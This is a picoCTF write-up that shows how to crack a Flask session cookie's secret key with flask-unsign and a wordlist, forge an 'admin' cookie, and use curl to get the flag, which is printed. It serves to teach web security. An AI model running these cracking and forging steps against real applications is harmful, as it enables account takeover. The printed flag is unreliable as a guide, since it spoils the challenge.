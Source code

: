# Most Cookies
Author: dch0017

## Challenge Description
Alright, enough of using my own encryption. Flask session cookies should be plenty secure!

## Accessing Site
Back to the third? installment of the cookies ctf's. This time we get information that the cookies are Flask session cookies and we get the ```server.py``` file for download as well. Opening the site we see the same site as the other challenges: </br>
![website](./website.png)
</br>

## Digging Deeper
Browsing at what cookies we have, we see 3 prominent ones we've seen in these challenges. ```auth_name```, ```PHPSESSID```, and a new one ```session```. The session one must be referring to the flask session cookie the description was referring to and it looks like this:
```
eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Y9GB0Q.r-dg0LGm9rjcM1y6u_aSgKda7nY
```


## Flask
That output looks just like the JWT token that we had to decode in the [JAUTH challenge](https://github.com/dch0017/PicoCTF/tree/main/Web%20Exploitation/JAuth).

But when we go to [jwt.io](https://jwt.io) we don't get a clear decoding.</br>
![jwt.io](./jwt.png)
</br>

## Search
If we go back to the main page and do a search for snickerdoole, we get a new page: </br>
![snickerdoodle](./snickerdoodle.png)
</br>

But we also see that our ```session``` cookie has changed. 
```eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Y9GJ_g.UuKWV-UW_KEw8deUwPbaUAHUxdY```

But before we go further with that, let's look at how we can decode these flask cookies.

## Flask Cookies 
I found two very good resources:</br>
[Hack Tricks page](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask)</br>
[Author of Flask-Unsign](https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce)</br>


We see that we need to get flask-unsign so that we can decode flask cookies and also use it to crack the secret key. So let's go ahead and do that:

```console
┌──(kali㉿kali)-[~]
└─$ flask-unsign --decode --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Y9GJ_g.UuKWV-UW_KEw8deUwPbaUAHUxdY" 
{'very_auth': 'snickerdoodle'}
                                                                             
┌──(kali㉿kali)-[~]
└─$ flask-unsign --wordlist /usr/share/wordlists/rockyou.txt --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Y9GJ_g.UuKWV-UW_KEw8deUwPbaUAHUxdY" --no-literal-eval
[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 6272 attempts
b'fortune'

```

Awesome, we see our cookie decodes to ```{'very_auth': 'snickerdoodle'}``` and our secret key is ```fortune```. But what do we need our new payload to be?

## Server.py
I wanted to see how far I could get without using the server.py file, but I had to open it here. I saw 2 key pieces of information:</br>
1.) The secret is auto set from a list of the cookie names, so different per session.
2.) On the ```/display``` page, there is a check to see if the ```very_auth``` cookie is set to ```admin```. 

Easy let's plug that back into ```flask-unsign``` and craft a new cookie.

## Flask-Unsign
Running the following command we can generate a new flask session cookie with our secret key:
```console
┌──(kali㉿kali)-[~]
└─$ flask-unsign --sign --cookie "{'very_auth':'admin'}" --secret 'fortune'
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Y9GROw.DfXrsC7nmkL_SYRltmdIs77xZw8
```

## Curling the Cookie
Now to just take our new flask cookie and send it to ```/display``` and we get the cookie.
```console
┌──(kali㉿kali)-[~]
└─$ curl http://mercury.picoctf.net:18835/display --cookie "session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Y9GROw.DfXrsC7nmkL_SYRltmdIs77xZw8" -s | grep -o "picoCTF{.*}" --color=none
picoCTF{pwn_4ll_th3_cook1E5_743c20eb}

```